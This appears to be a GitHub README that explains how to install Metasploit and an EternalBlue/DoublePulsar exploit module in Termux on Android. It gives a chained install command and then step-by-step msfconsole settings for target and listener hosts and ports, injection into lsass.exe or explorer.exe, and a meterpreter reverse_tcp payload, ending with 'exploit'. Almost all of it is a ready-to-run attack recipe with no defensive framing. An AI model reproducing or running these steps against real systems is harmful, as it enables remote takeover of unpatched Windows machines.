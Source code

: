 ## Installing Metasploit and Eternalblue Doublepulsar for Termux
```
pkg update && pkg upgrade && pkg install root-repo && termux-setup-storage && pkg install metasploit && pkg install git && cd && git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit && cd Eternalblue-Doublepulsar-Metasploit && cp eternalblue_doublepulsar.rb /data/data/com.termux/files/usr/opt/metasploit-framework/modules/exploits/smb && cd /data/data/com.termux/files/home && mkdir .wine && cd .wine && mkdir drive_c && msfconsole
```
### Usage
* ```use exploits/windows/smb/eternalblue_doublepulsar``` 
* ```set rhost 192.168.0.0```
* ```set lhost 192.168.0.0```
* ```set rport 445```
* ```set lport 4444```
* ```set DOUBLEPULSARPATH /data/data/com.termux/files/home/Eternalblue-Doublepulsar-Metasploit/deps```
* ```set ETERNALBLUEPATH /data/data/com.termux/files/home/Eternalblue-Doublepulsar-Metasploit/deps```
* ```set TARGETARCHITECTURE x86``` / ```x64```
* ```set PROCESSINJECT lsass.exe``` / ```explorer.exe```
* ```set WINEPATH /data/data/com.termux/files/home/.wine/drive_c/```
* ```set PAYLOAD windows/meterpreter/reverse_tcp``` / ```set PAYLOAD windows/x64/meterpreter/reverse_tcp```
* ```exploit```
